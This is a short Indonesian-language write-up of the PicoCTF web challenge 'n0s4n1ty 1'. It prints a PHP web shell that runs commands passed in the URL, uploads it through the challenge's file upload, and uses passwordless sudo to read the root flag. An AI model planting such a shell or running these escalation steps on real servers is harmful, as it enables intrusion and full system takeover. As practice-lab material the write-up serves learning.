





# n0s4n1ty 1 - PicoCTF

### Detail Informasi
Kategori = Web Exploitation🖥️

Level = Easy🟢

[n0s4n1ty 1](https://play.picoctf.org/practice/challenge/482?category=1&page=1)

## Langkah-langkah pengerjaan
1. Membuat file script.php yang berisi 

~~~
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  
    system($cmd);         
    echo "</pre>";
}
?>
~~~

2. Upload file tersebut ke halaman web challange nya

3. Setelah di up, maka akan muncul tampilan seperti pada gambar ini

4. Selanjutnya bisa menambahkan perintah ada url nya yaitu `whoami` untuk mengetahui hak kita sebagai apa dan muncul tampilan `www-data` yang dimana biasanya aksesnya terbatas

5. Ganti `whoami` dengan `sudo -l` dan muncul tampilan yang menandakan bahwa pengembang tidak memasang sandi untuk semua termasuk root

6. Karena tidak ada sandi untuk mengaksesnya, maka bisa langsung menjalankan `sudo cat root/flag.txt` dan didaptkan flag nya
